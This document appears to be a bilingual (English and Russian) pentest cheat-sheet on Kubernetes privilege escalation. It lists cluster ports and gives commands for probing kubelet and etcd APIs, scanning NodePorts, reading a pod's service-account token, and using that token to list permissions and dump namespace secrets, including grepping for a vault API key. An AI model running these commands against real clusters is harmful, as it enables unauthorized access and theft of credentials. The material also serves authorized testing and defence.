

# Kuber

<figure><figcaption><p>Kubernetes Privilege Escalation</p></figcaption></figure>


## Ports

| Port            | Process        | Description                                                            |
| --------------- | -------------- | ---------------------------------------------------------------------- |
| 443/TCP         | kube-apiserver | Kubernetes API port                                                    |
| 2379/TCP        | etcd           |                                                                        |
| 6666/TCP        | etcd           | etcd                                                                   |
| 4194/TCP        | cAdvisor       | Container metrics                                                      |
| 6443/TCP        | kube-apiserver | Kubernetes API port                                                    |
| 8443/TCP        | kube-apiserver | Minikube API port                                                      |
| 8080/TCP        | kube-apiserver | Insecure API port                                                      |
| 10250/TCP       | kubelet        | HTTPS API which allows full mode access                                |
| 10255/TCP       | kubelet        | Unauthenticated read-only HTTP port: pods, running pods and node state |
| 10256/TCP       | kube-proxy     | Kube Proxy health check server                                         |
| 9099/TCP        | calico-felix   | Health check server for Calico                                         |
| 6782-4/TCP      | weave          | Metrics and endpoints                                                  |
| 30000-32767/TCP | NodePort       | Proxy to the services                                                  |
| 44134/TCP       | Tiller         | Helm service listening                                                 |


## Kubelet Api

```
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

If the response is `Unauthorized` then it requires authentication.

Custom client for kubelet communication - [https://github.com/cyberark/kubeletctl](https://github.com/cyberark/kubeletctl)


**kubelet (Read only)**

```
curl -k https://<IP Address>:10255
http://<external-IP>:10255/pods
```


## etcd API <a href="#etcd-api" id="etcd-api"></a>

```
curl -k https://<IP address>:2379
curl -k https://<IP address>:2379/version
etcdctl --endpoints=http://<MASTER-IP>:2379 get / --prefix --keys-only
```


## NodePort <a href="#nodeport" id="nodeport"></a>

When a port is exposed in all the nodes via a **NodePort**, the same port is opened in all the nodes proxifying the traffic into the declared **Service**. By default this port will be in in the **range 30000-32767**. So new unchecked services might be accessible through those ports.

```
sudo nmap -sS -p 30000-32767 <IP>
```


## Dnscan

utility for enum services inside cluster network by PTR record

[https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e)

build:

```bash
go build -ldflags "-linkmode external -extldflags '-static -s -w'" -o myapp main.go
```

## Service Account

Check  SA rights&#x20;

```bash
kubectl auth can-i create --list
```

По умолчанию Kubernetes хранит все токены и информацию об учетных записях служб в месте по умолчанию. Перейдите туда, чтобы найти полезную информацию.

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

* Теперь мы можем использовать эту информацию для запроса и взаимодействия со службой API Kubernetes с доступными разрешениями и привилегиями.
* Чтобы указать имя хоста внутреннего API-сервера, мы можем экспортировать его из переменных среды.

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* Чтобы установить путь к `ServiceAccount`токену

```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* Чтобы установить значение пространства имен

```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* Чтобы прочитать `ServiceAccount`токен на предъявителя

```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```

* Чтобы указать `ca.crt`путь, чтобы мы могли использовать его при запросе `curl`запросов

```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Теперь мы можем изучить API Kubernetes с помощью токена и построенных запросов.

**kubectl**

```bash
kubectl --token=${TOKEN} --server=https://10.233.0.1:443 --insecure-skip-tls-verify=true --namespace=namespace auth can-i --list
```

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

* Чтобы запросить доступные секреты в `default`пространстве имен, выполните следующую команду

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

* Чтобы запросить секреты, специфичные для пространства имен

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

* Получите `k8svaulapikey`пользу от секретов

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```
